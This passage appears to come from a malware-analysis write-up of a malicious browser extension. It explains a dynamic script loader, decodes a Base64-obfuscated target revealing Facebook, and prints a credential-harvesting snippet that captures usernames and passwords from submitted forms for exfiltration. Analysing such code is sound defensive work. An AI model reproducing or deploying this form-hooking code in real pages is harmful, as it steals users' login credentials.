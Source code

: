 	```javascript
	function loadScript(url, callback) {
	    var script = document.createElement('script');
	    script.src = url;
	    script.onload = callback;
	    document.head.appendChild(script);
	}
	```
    {: .nolineno }
	
	Where **`url`** is the URL of the script to load and **`callback`**: is the function executed after the script is successfully loaded. In this case:
	```javascript
	loadScript('core/app.js', function() {
	    console.log('Core functionality loaded.');
	});
	```
    {: .nolineno }

From this file, I deduced that:

- The extension avoids running in analysis environments.
- Since the script dynamically loads `core/app.js`, it could be abused to fetch additional, potentially malicious code.

### app.js

![image](https://gist.github.com/user-attachments/assets/5edfe6c8-48ac-4a50-af3f-0fdea6c51bca)

I will try break this down in parts for easier comprehension:

- **Target Website**

```javascript
const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```
{: .nolineno }

The string `'d3d3LmZhY2Vib29rLmNvbQ=='` is Base64-encoded. Decoding it reveals:

```bash
➜  echo "d3d3LmZhY2Vib29rLmNvbQ==" | base64 -d
www.facebook.com 
```
{: .nolineno }

This indicates the script specifically targets Facebook, suggesting it is designed for phishing or stealing credentials from Facebook users.

- **Credential Harvesting**

```javascript
document.addEventListener('submit', function(event) {
    let form = event.target;
    let formData = new FormData(form);
    let username = formData.get('username') || formData.get('email');
    let password = formData.get('password');
    
    if (username && password) {
        exfiltrateCredentials(username, password);
    }
});
```
{: .nolineno }
